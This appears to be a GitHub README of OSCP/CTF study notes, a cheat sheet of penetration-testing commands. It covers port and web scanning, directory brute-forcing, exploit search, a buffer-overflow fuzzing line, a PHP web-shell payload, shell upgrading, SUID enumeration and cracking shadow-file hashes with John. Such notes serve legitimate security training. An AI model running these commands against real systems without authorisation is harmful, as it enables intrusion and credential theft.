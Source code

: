 

# OSCP
OSCP / CTF

ENUM

Portscan all Ports
sudo nmap -sS -p- <ip>

Portscan with Scripts and Fingerprinting
sudo nmap -sS -sV -sC -p22,80,9000 <ip>

Web Vuln-Scan
nikto -host 192.168.56.205

Web Enum BruteForce
gobuster -t 100 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<host>
https://github.com/danielmiessler/SecLists
big wordlist:
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/dirsearch.txt
gobuster -t 100 dir -w big.txt -u http://<host>
  
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt -u http://<ip>/FUZZ -t 500
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt -u http://<ip>/config/FUZZ -t 500 -mc 200

CVE / Exploit Search
searchsploit <name>
searchsploit -p <id>
cp <path> .

Fuzzing 
python -c 'print("A" * 5000)' | nc <ip> <port>
  
php shell command
"<?php system('id'); ?>"

upgrade shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

SUID BINARY
find / -perm -g=s -o -perm -u=s -type f 2>/dev/null

Crack Password with John
unshadow passwd.txt shadow.txt > unshadow.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.txt 


```bash
bash urlencode
echo $( php -r "echo urlencode('Start: #1, Zeichen {13/24} Ende();');"; )
#!/bin/bash
echo $( php -r "echo urlencode(\"$1\");"; )
urlencode.sh 'string zum encodieren'
```
  

